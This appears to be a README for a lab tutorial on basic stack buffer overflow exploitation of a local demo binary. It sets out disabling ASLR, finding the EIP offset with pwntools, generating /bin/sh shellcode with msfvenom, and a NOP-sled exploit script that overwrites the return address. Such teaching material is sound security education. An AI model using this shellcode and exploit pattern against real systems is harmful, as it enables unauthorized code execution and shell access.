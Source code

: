 # Basic Buffer Overflow exploitation

## Requirements

- pwntools

    ```bash
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo apt-get install python3-pwntools
    ```

- pwndbg

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```

- Disable ASLR

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```

### x64?

- In case you are running a x64 OS, you will need 32-bit development headers and libraries

    ```bash
    sudo apt-get install gcc-multilib
    ```

## Demo time!

### Get the offset

0. Compile the binary and check there is a BoF

```bash
make vuln
./vuln $(python3 -c 'print("A"*1000)')
```
> You should get a segmentation fault!


1. Run pwndbg and use pwntools cyclic function to get the register info

```bash
pwndbg ./vuln
run $(python3 -c 'from pwn import *; print(cyclic(500))')
```
> Check the stack + registers. The stack was smashed!

```bash
x/300x $esp
info registers
```

2. Capture the %eip value after crash

```txt
0x61646361
```

3. Get the offset related to the %eip captured with `cyclic` bin

```bash
pwndbg> cyclic -l 0x61646361
Finding cyclic pattern of 4 bytes: b'acda' (hex: 0x61636461)
Found at offset 210
```

4. Check the offset works as expected with a custom payload

```bash
run $(python3 -c 'from pwn import *; import sys; print("A"*210 + "B"*4)')
```

> Invalid address 0x8004242

As we can see, there is some issue with the aligment, we need to add 2 bytes to control the EIP effectively 

```bash
break vuln # Add a breakpoint in the vuln function
run $(python3 -c 'from pwn import *; import sys; print("A"*212 + "B"*4)')
n # Run one step to execute the strcpy function
x/300x $esp
info registers
```
> As you can see, the stack is smashed correctly

![](./img/stack_smash.png)

Let's finish the execution! The program will crash for sure, we just need to verify the %eip register confirm we have control of %eip register

```bash
c
info registers
```
> %eip -> `0x42424242`

## Generate the shellcode!

Let's generate a shellcode compatible with our architecture

> Note: NULL -> \x00 | NewLine -> \x0a | Carriage Return ->\x0d | Space -> \x20

```bash
$ msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00\x0a\x0d\x20" -f python

...

Payload size: 70 bytes
Final size of python file: 357 bytes
```

```python
buf =  b""
buf += b"\xba\x13\xc0\x5c\xd1\xdb\xca\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x0b\x31\x56\x15\x03\x56\x15\x83\xee"
buf += b"\xfc\xe2\xe6\xaa\x57\x89\x91\x79\x0e\x41\x8c\x1e"
buf += b"\x47\x76\xa6\xcf\x24\x11\x36\x78\xe4\x83\x5f\x16"
buf += b"\x73\xa0\xcd\x0e\x8b\x27\xf1\xce\xa3\x45\x98\xa0"
buf += b"\x94\xfa\x32\x3d\xbc\xaf\x4b\xdc\x8f\xd0"
```
> The shellcode requires 70 bytes, it will fit inside our 212 offset


## Write the exploit

Follow the template to build the exploit. Create a new `exploit.py` with the content:

```python
import sys

# 70 Bytes de shellcode (buff)
buf =  b""

# Insert the shellcode here!

offset = 212            # Offset obtained at the beginning
nops = b"\x90" * 100    # Add some NOPs to secure the execution
padding = b"\x41" * 42  # padding = Offset - NOPS - Shellcode (212-100-70 = 42)

payload = nops + buf + padding

sys.stdout.buffer.write(payload)
```

Now, run the exploit in GDB adding a stopping the execution just after the stack is smashed with `strcpy`. We will check the stack to find an address to override the %eip and redirect the execution to the NOPs area.

```bash
gdb ./vuln
break vuln
run $(python3 exploit.py)
break *0x80491c7 # Break at the RET from VUln
c
x/300x $esp # Look for the x90 block (should be in the stack as is passed as a parameter)
```

> 0xffffd12c -> %eip

![](./img/payload_load.png)

Finish the exploit by overwriting the return address

```python
# 0xffffd12c EN little endian
eip = b"\x2c\xd1\xff\xff"  # Adjust with real val
payload = nops + buf + padding + eip
sys.stdout.buffer.write(payload)
```

## Run the exploit
./vuln $(python3 solution_exploit.py)

Check the [solution file](./solution_exploit.py)

## Cleanup

- Don't forget to reenable the ASLR

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
